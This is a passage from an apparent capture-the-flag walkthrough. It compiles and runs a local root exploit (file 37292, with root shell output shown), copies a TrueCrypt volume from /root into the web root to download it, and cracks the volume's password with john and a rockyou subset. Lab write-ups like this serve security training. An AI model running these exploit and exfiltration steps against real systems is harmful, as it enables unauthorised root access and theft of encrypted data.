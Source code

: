 We rename the file:

    mv 37292 ofs.c

We compile it and add execution permission:

    gcc ofs.c -o ofs
    chmod +x ofs

Then we just run it to gain root privileges on the box:

    :::text
    ./ofs
    collect2: error: ld returned 1 exit status
    spawning threads
    mount #1
    mount #2
    child threads done
    /etc/ld.so.preload created
    creating shared library
    sh: 0: can't access tty; job control turned off
    id
    # uid=0(root) gid=0(root) groups=0(root),33(www-data)

Okay let us search for the flag:

    ls /root/
    # dave.tc

## First hint

It seems we have a truecrypt volume, let's download it on our machine for more
investigation:

    cp /root/dave.tc /var/www/html/

Then we can download it directly from the server at `http://10.0.2.4/dave.tc`

We need to extract the hashes from the file to pass them to john, hopefully a
tool exist just for that (we need to compile it):

    http://article.gmane.org/gmane.comp.security.openwall.john.user/5320

As the mail mention the academy and the hint mention the rockyou password list,
let us just extract the academy related passwords from it:

    grep academy /media/sf_password_lists/rockyou.txt > /tmp/test

We launch john against the file with our partial rockyou list:

    :::text
    john dave.tc.john -w=/tmp/test
    Warning: detected hash type "tc_aes_xts", but the string is also recognized as "tc_ripemd160"
    Use the "--format=tc_ripemd160" option to force loading these as that type instead
    Using default input encoding: UTF-8
    Loaded 6 password hashes with 6 different salts (tc_aes_xts, TrueCrypt AES256_XTS [SHA512 128/128 AVX 2x /RIPEMD160/WHIRLPOOL])
    Loaded hashes with cost 1 (hash algorithm [1:SHA512 2:RIPEMD160 3:Whirlpool]) varying from 1 to 3
    Press 'q' or Ctrl-C to abort, almost any other key for status
    0g 0:00:00:01 54.22% (ETA: 17:16:27) 0g/s 59.89p/s 359.3c/s 359.3C/s fordacademy..ffmusicacademy
    etonacademy      (truecrypt_normal_volume)
    1g 0:00:00:03 DONE (2016-05-10 17:16) 0.2724g/s 59.94p/s 331.8c/s 331.8C/s 06academy..!academy
    Use the "--show" option to display all of the cracked passwords reliably
    Session completed
